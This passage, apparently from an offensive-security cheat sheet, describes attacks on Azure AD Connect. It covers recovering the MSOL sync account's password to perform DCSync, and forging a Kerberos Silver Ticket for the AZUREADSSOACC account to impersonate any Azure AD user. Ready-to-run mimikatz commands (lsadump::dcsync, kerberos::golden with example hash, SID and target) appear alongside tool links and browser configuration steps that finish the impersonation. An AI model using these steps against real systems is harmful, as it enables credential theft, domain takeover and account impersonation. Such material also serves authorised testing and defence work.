
```powershell
git clone https://github.com/fox-it/adconnectdump
# DCSync with AD Sync account
```

### Azure AD Connect - MSOL Account's password and DCSync

You can perform **DCSync** attack using the MSOL account.

Requirements:
  * Compromise a server with Azure AD Connect service
  * Access to ADSyncAdmins or local Administrators groups

Use the script **azuread_decrypt_msol.ps1** from @xpn to recover the decrypted password for the MSOL account:
* `azuread_decrypt_msol.ps1`: AD Connect Sync Credential Extract POC https://gist.github.com/xpn/0dc393e944d8733e3c63023968583545
* `azuread_decrypt_msol_v2.ps1`: Updated method of dumping the MSOL service account (which allows a DCSync) used by Azure AD Connect Sync https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c

Now you can use the retrieved credentials for the MSOL Account to launch a DCSync attack.

### Azure AD Connect - Seamless Single Sign On Silver Ticket

> Anyone who can edit properties of the AZUREADSSOACCS$ account can impersonate any user in Azure AD using Kerberos (if no MFA)

> Seamless SSO is supported by both PHS and PTA. If seamless SSO is enabled, a computer account **AZUREADSSOC** is created in the on-prem AD.

:warning: The password of the AZUREADSSOACC account never changes.

Using [https://autologon.microsoftazuread-sso.com/](https://autologon.microsoftazuread-sso.com/) to convert Kerberos tickets to SAML and JWT for Office 365 & Azure

1. NTLM password hash of the AZUREADSSOACC account, e.g. `f9969e088b2c13d93833d0ce436c76dd`. 
    ```powershell
    mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit
    ```
2. AAD logon name of the user we want to impersonate, e.g. `elrond@contoso.com`. This is typically either his userPrincipalName or mail attribute from the on-prem AD.
3. SID of the user we want to impersonate, e.g. `S-1-5-21-2121516926-2695913149-3163778339-1234`.
4. Create the Silver Ticket and inject it into Kerberos cache:
    ```powershell
    mimikatz.exe "kerberos::golden /user:elrond
    /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234
    /domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd
    /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit
    ```
5. Launch Mozilla Firefox
6. Go to about:config and set the `network.negotiate-auth.trusted-uris preference` to value `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com`
7. Navigate to any web application that is integrated with our AAD domain. Fill in the user name, while leaving the password field empty.
